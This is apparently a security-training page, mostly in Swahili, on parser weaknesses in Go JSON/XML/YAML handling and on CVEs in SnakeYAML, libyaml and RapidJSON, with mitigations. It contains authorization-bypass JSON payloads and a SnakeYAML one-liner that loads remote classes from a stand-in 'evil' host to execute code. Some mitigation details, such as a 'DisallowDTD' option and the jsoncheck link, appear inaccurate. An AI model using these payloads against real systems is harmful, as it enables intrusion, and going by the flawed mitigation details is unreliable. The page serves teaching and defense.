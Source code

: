 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Masuala yafuatayo yaligundulika katika Go JSON ingawa yanaweza kuwepo katika lugha nyingine pia. Masuala haya yalichapishwa katika [**hiki kipande cha blog**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Parsers za JSON, XML, na YAML za Go zina historia ndefu ya kutokuelewana na mipangilio isiyo salama ambayo inaweza kutumika **kuzidi uthibitisho**, **kuinua mamlaka**, au **kutoa data nyeti**.


### (Un)Marshaling Data Isiyotarajiwa

Lengo ni kutumia structs ambazo zinamruhusu mshambuliaji kusoma/kandika maeneo nyeti (mfano, `IsAdmin`, `Password`).

- Mfano wa Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Uthibitisho wa Kawaida

1. **Kikosi kilichokosekana** (hakuna kikosi = uwanja bado unachambuliwa kwa chaguo-msingi):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Matumizi yasiyo sahihi ya `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Njia sahihi ya kuzuia uwanja usiweze (kuwekwa) au (kuondolewa) kutoka kwa marshaling:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser Differentials

Lengo ni kupita idhini kwa kutumia jinsi parser tofauti zinavyotafsiri payload sawa kwa njia tofauti kama katika:
- CVE-2017-12635: Apache CouchDB bypass kupitia funguo za kurudiwa
- 2022: Zoom 0-click RCE kupitia kutokuwepo kwa usawa kwa parser ya XML
- GitLab 2025 SAML bypass kupitia tabia za XML

**1. Duplicate Fields:**
Go's `encoding/json` inachukua **field** ya **mwisho**.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Waparser wengine (kwa mfano, Jackson ya Java) wanaweza kuchukua **ya kwanza**.

**2. Kutokuwa na Uthibitisho wa Kesi:**
Go haina uthibitisho wa kesi:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Hata hila za Unicode zinafanya kazi:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Mismatch ya huduma nyingi:**
Fikiria:
- Proxy iliyoandikwa kwa Go
- Huduma ya AuthZ iliyoandikwa kwa Python

Mshambuliaji anatumia:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python inaona `UserAction`, inaruhusu
- Go inaona `AdminAction`, inatekeleza

### Data Format Confusion (Polyglots)

Lengo ni kutumia mifumo inayochanganya muundo (JSON/XML/YAML) au kushindwa kufungua kwenye makosa ya parser kama:
- **CVE-2020-16250**: HashiCorp Vault ilipars JSON kwa kutumia parser ya XML baada ya STS kurudisha JSON badala ya XML.

Mshambuliaji anadhibiti:
- Kichwa cha `Accept: application/json`
- Udhibiti wa sehemu ya mwili wa JSON

Parser ya XML ya Go ilipars **bila kujali** na kuamini utambulisho ulioingizwa.

- Payload iliyoundwa:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Uthibitisho wa Hatari za Parser Zinazojulikana (2023-2025)

> Masuala yafuatayo yanayoweza kutumika hadharani yanaonyesha kwamba uchambuzi usio salama ni tatizo la lugha nyingi — si tatizo la Go pekee.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Inahusisha: `org.yaml:snakeyaml` < **2.0** (inayotumiwa na Spring-Boot, Jenkins, nk.).
* Sababu ya msingi: `new Constructor()` inachambua **darasa la Java la kiholela**, ikiruhusu mnyororo wa vifaa unaomalizika kwa utekelezaji wa msimbo wa mbali.
* One-liner PoC (itafungua kalkuleta kwenye mwenyeji aliye hatarini):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigation:
1. **Sasisha hadi ≥2.0** (inatumia `SafeLoader` kama chaguo la default).
2. Katika toleo za zamani, tumia waziwazi `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Inahusisha: `libyaml` ≤0.2.5 (maktaba ya C inayotumiwa na viunganishi vingi vya lugha).
* Tatizo: Kuita `yaml_event_delete()` mara mbili husababisha double-free ambayo washambuliaji wanaweza kugeuza kuwa DoS au, katika hali zingine, unyakuzi wa heap.
* Hali: Upstream ilikataa kama “matumizi mabaya ya API”, lakini usambazaji wa Linux ulisambaza **0.2.6** iliyorekebishwa ambayo inafanya null-free pointer kwa njia ya kujihami.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Inahusisha: Tencent **RapidJSON** kabla ya commit `8269bc2` (<1.1.0-patch-22).
* Kosa: Katika `GenericReader::ParseNumber()` hesabu isiyoangaliwa inawawezesha washambuliaji kuunda nambari kubwa ambazo zinapita na kuharibu heap — hatimaye kuwezesha kupandisha hadhi wakati grafu ya kitu inayotokana inatumika kwa maamuzi yaidhinishaji.

---

### 🔐 Mitigations (Updated)

| Hatari                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| Nyamba zisizojulikana (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Nyamba za kurudiwa (JSON)             | ❌ Hakuna fix katika stdlib — thibitisha na [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Mechi isiyo na herufi kubwa (Go)         | ❌ Hakuna fix — thibitisha lebo za muundo + pre-canonicalize input   |
| Takataka za XML / XXE              | Tumia parser iliyoimarishwa (`encoding/xml` + `DisallowDTD`)     |
| Funguo zisizojulikana za YAML                   | `yaml.KnownFields(true)`                                   |
| **Deserialization ya YAML isiyo salama**     | Tumia SafeConstructor / sasisha hadi SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Sasisha hadi **0.2.6** au toleo lililorekebishwa na distro            |
| RapidJSON <patched commit           | Jenga dhidi ya RapidJSON ya hivi karibuni (≥Julai 2024)              |

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
